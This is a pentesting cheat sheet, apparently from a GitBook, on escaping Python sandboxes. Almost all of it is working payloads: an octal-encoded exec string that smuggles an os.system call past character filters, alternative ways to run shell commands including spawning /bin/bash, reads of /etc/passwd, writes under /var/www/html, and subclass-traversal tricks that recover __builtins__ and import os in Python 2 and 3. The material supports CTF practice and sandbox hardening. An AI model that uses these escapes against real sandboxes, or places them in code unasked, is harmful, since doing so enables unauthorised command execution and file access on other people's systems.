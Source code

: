 # Python Sandbox

## Bypass forbidden characters

* Target command
  * `exec("print('RCE'); __import__('os').system('ls')")`
* Updated command, after converting payload to octal
  * `exec("\160\162\151\156\164\050\047\122\103\105\047\051\073\040\137\137\151\155\160\157\162\164\137\137\050\047\157\163\047\051\056\163\171\163\164\145\155\050\047\154\163\047\051")`
* Alternatively you can convert to octal, hex, base64

## Alternative functions

```python
### Command execution and file read ##########################
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')


### importing libraries ########################################
# 1
import os
from os import *
__import__('os').system("ls")

# 2
sys.modules["os"].system("ls")

#3 - python2
execfile('/usr/lib/python2.7/os.py')
system('ls')

```

## Python builtins

* In python version 2.7.18
  * `__builtin__` is a module that stores all built in functions.
  * Both `__builtin__` and `__builtins__` are exactly the same
  * You could print all built in functions using `dir(__builtin__)`
  * All functions except print will work normally, to execute print normally you need to first run `from __future__ import print_function`
* Examples
  * `import __builtin__`
    * Loading \_\_builtin\_\_ module
  * `__builtin__.len("hello")`
  * `__builtin__.range(1,20)`
  * `__builtin__.print("hello")`
  * `from __future__ import print_function`
  * `__builtin__.print("hello")`
  * `__builtin__.__dict__['__import__']("os").system("ls")`

![](../../.gitbook/assets/image%20%28138%29.png)

* Some more builtin
  * `__builtin__.__dict__['__import__']("os").system("ls")`

## No builtin module : python2

* Restore builtin using its sub-modules
  * `__builtins__ = [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__`
  * `__builtins__['__import__']('os').system('whoami')`



* other methods

```python
#Try to reload __builtins__
reload(__builtins__)
import __builtin__

# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")

# Or you could recover __builtins__ in make eveything easier
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__["__import__"]('os').system('ls')

# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")
```

## No builtin module : python3

* `get_flag.__globals__['__builtins__'].__import__("os").system("ls")`

